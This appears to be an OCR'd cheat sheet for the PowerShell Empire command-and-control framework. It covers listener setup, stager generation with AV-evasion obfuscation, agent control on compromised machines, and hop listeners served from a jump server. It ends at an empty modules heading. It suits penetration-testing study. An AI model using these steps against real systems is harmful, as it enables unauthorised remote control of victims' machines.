 # POWERSHELL EMPIRE C2 FRAMEWORK 

## LISTENERS

### Listeners in Empire are used to receive connections from stagers.  The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

#### Listener selection: uselistener LISTENER

#### Listener options: options, set OPTION VALUE, set Name NAME, set Host OUR_IP, set Port OUR_PORT

#### Launch listener: execute

#### Stop listener: kill LISTENER_NAME

#### Exit out of this menu: back, Main menu: main

## STAGERS

###  Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

### We can generate stagers in either Empire CLI or Starkiller. In most cases these will be given as script files to be uploaded to the target and executed. Empire gives us a huge range of options for creating and obfuscating stagers for AV evasion; however, we will not be going into a lot of detail about these here.

#### Stager generation: usestager (Include space to get a list of available stagers in a dropdown menu)

#### General purpose stager: multi/launcher

#### Specify stager: usestager multi/launcher

#### Stager options: options, set OPTION VALUE set Listener LISTENER_NAME, execute

## AGENTS

#### Agent setup: Copy and paste stager to a script (name of your choice) and then transfer it on to the machine. Or just copy/paste the entire script to compromised machine to connect to the C2 server.

#### Agent interaction: agents (See full list of available agents), interact AGENT_NAME then help (Check your options to execute on compromised machine)

#### Switch back to agents menu: back

#### Kill agent: kill AGENT_NAME

#### Rename agent: rename AGENT_NAME NEW_AGENT_NAME

## HOP LISTENERS

### Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine. As such, the hop listener in the listeners menu can be thought of as more of a placeholder -- a reference to be used when generating stagers.

#### Listener creation: uselistener http_hop

#### Hop Listener setup: set RedirectListener FIRST_LISTENER_NAME, set Host COMPROMISED_IP set Port PORT(Above 15000)

#### Execute

#### Generate stager for hop listener: use multi/launcher set Listener http_hop

#### Copy/paste payload to target's command line

## START JUMP SERVER

### Example:

#### mkdir /tmp/hop-EXAMPLE

#### cd /tmp/hop-EXAMPLE

#### Attacker: cd /tmp/http_hop && zip -r hop.zip

#### Transfer the zipped file to compromised machine
 
#### Compromised machine: unzip hop.zip

#### Compromised machine: Create a web server to host the payloads generated by the framework: php -S 0.0.0.0:PORT (Above 15000) &>/dev/null &

## MODULES
